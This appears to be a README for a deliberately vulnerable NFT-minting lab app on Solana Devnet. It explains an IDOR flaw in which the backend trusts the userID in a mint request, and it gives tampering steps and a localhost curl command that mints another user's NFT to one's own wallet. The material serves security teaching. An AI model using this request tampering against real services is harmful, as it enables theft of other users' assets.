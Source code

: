 After logging in, you’ll be redirected to a dashboard where your available NFTs (dummy data) will be shown. If a mintable NFT is assigned to you, a **"Mint NFT"** button will appear.

---

## 🧪 How the Vulnerability Works

### 📤 Normal Behavior

When clicking **"Mint NFT"**, the frontend sends a POST request to the backend:

```json
{
  "userID": 1,
  "nftID": 2,
  "publicKey": "Your_Solana_Wallet_PublicKey"
}
```

The backend then:

1. Mints the specified NFT (real minting on Solana Devnet),
2. Transfers it to the given wallet `publicKey`.

---

### 🚨 Exploitation via IDOR

The backend **does not verify** if the `userID` in the request matches the currently authenticated user. This creates an IDOR vulnerability.

#### Attack Scenario

1. Login with your account (`solninja`)
2. Intercept the mint request
3. Modify the request body:
   - Change `userID` to another user's ID (e.g., `2`)
   - Keep your own `publicKey`
4. Send the request

Now, **you will receive an NFT that doesn’t belong to you.**

---

### 🧰 Exploitation with cURL

```bash
curl -X POST http://localhost/api/nft/mint/demo -H "Content-Type: application/json" -d '{"userID": 2, "nftID": 2, "publicKey": "Your_Own_Solana_Public_Key"}'
```

This will mint the NFT owned by `userID: 2` to **your** wallet address.

---

## ✅ Conclusion
